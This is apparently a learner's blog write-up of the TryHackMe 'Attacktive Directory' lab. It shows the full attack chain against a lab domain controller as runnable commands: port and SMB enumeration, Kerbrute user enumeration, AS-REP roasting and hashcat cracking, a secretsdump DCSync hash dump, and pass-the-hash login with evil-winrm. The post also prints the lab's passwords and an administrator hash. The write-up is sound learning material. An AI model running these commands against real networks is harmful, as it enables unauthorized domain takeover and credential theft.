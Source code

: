 ```yaml
---
layout: post
title: "Active Directory"
date: 2023-05-20 
categories: ["Hands-on", "TryHackMe"]
tags: "Active Directory"
---
```


# Active Directory

Tool used: **nmap**, **enum4linux**, **Impacket**, **evil-winrm**

**Scenario:**
*99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?*

By now, I have focused my skills and energy on exploiting Linux machines. However, I want to switch gears and focus on Windows' Active Directory instead. This shift will help me broaden my horizons and learn not only how to exploit different operating systems but also the various services and systems within that operating system.


## Setup
I followed the setup section to install Impact, bloodhound, and Neo4j, after doing so i ran the command to update and upgrade for any issues. Downloading BloudHound and Neo4j did take a long time so I started reading on each tool. 

```bash
sudo apt update && apt upgrade 
```

### Impacket
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket/) is a collection of python classes for working with network protocols like IP, TCP and such. It has many features including remote execution, Kerberos, Windows Secrets, Server tools, and etc. 

### Bloodhound
[BloodHound](https://github.com/BloodHoundAD/BloodHound) uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Bloudhound can be used to identify highly complex attack paths, identify and eliminate the paths, gain deeper understanding of privilege relationships 

### Neo4j
Neo4j is a grapgh database managment system. It is designed to store, manage, and process large amounts of structured and connected data in the form of a graph. Unlike traditional relational databases, which store data in tables with rows and columns, Neo4j organizes data in nodes, relationships, and properties.

### evil-winrm
[WinRM] (https://www.kali.org/tools/evil-winrm/)(Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.

This program can be used on any Microsoft Windows Servers with this feature enabled (usually at port 5985), of course only if you have credentials and permissions to use it. So it could be used in a post-exploitation hacking/pentesting phase. The purpose of this program is to provide nice and easy-to-use features for hacking. It can be used with legitimate purposes by system administrators as well but the most of its features are focused on hacking/pentesting stuff.

## Enumeration 
I started the enmueration phase with the basics scanning for open ports using nmap. The result were a lot, but I can see that port 139/445 are open and the question asks about the tool to use to enumerate that port which ofcourse is enum4linux.

## Ports scanning  
```bash
nmap -sV 10.10.159.47

53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 09:16:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB Enumeration 
We can use **enum4linux** to enumerate port 139/445 SMB. The command takes two arguments, the -U to get the serlist and the -o To gather OS information of the target. The NetBIOS-Domain name can be found in the result of the enumeration 

```bash
enum4linux -U -o 10.10.159.47
```
> Commonly used invalid Top-level Domain for AD Domain is .local

### [Kerberos](https://github.com/ropnop/kerbrute/releases) Enumeration 
Kerberos is a key authentication service within AD, for the tool that will be used its **Kerbute** to brute force discover of users, passwords and passwords spray (add later what password spray is)

After setting up Kerbrute to work enumerate the usernames and files i used the previous question hind for the top level domain to write the command below and provided the username list. The command userenum used to enumerate valid usernames 

```bash
./kerbrute userenum --dc 10.10.159.47 -d spookysec.local user.txt
```

After running the enumeration I noticed 3 users that stood out and svc-admin was the answer to the notable account discovered, and the other one was backup.


## Exploiting 

### Abusing Kerberos
ASREPRoasting attach occurs when a user account has the privilege "Does not require Pre-Authentication" set. Meaning that no valid identification is needed befoee requesting a Kerberos Ticket on the specified user account. **Impacket** will be used to make this attack happen, it has a tool called **GetNPUsers.py**that sllows us to query ASREPRoastable accounts from Key Distrubtion center. I ran the command below with the kerbuser.txt that contains the backup and the svc-admin to see if one of them or both of them are ASREPRoastable accounts. SVC-Admin came back with a long hash I copied the first part of the hash and found it in the hashcat examples as '18200 - Kerberos 5, etype 23, AS-REP' 

```bash
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile kerbuser.txt -dc-ip 10.10.159.47 spookysec.local/
```

Cracking the hash using hashcat mode 18200 to find that the password is management2005

```bash
hashcat -m18200 kerbhash /usr/share/wordlists/rockyou.txt 
```

## Back to Enumeration
> Enumerating any shares that the domain controller may be giving out. 
**smbclient** is used to make remote SMB shares, the option *-L* lists the shares the command below was used to list the share using the password that was found. 

```bash
smbclient -L 10.10.159.47 -U svc-admin
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
    
    SMB1 disabled -- no workgroup available
```

For this part i have to use the guide to learn how to use smbclient and what to do. After listing the shares I need to access the backup's content to view the text file. I used the below command to get the file and when it read the content it was encoded so i used cyberchef to decode the base64 to 'backup@spookysec.local:backup2517860' 

```bash
smbclient \\\\10.10.159.47\\backup -U svc-admin
```

## Privilege Escalation 
Now that we have backup credentials that has unique permission that allows all AD changes to be synced with this user we can use the impacket tool **secretsdump.py** to retrieve all password hashes that the backup user account has. I ran the below comman to start the attack and retrieve all the user accounts hashes using the backup username and password found in the previous step.

```bash
python secretsdump.py -just-dc backup@10.10.159.47
```

After recieving all the hashes for the adminstrator, svc-admin and backup I used the evilwinrm with -H option to pass the user's hash to log in as the Administrator then i checked each user desktop to finally get the flags.

```bash
./evil-winrm -i 10.10.159.47 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
```

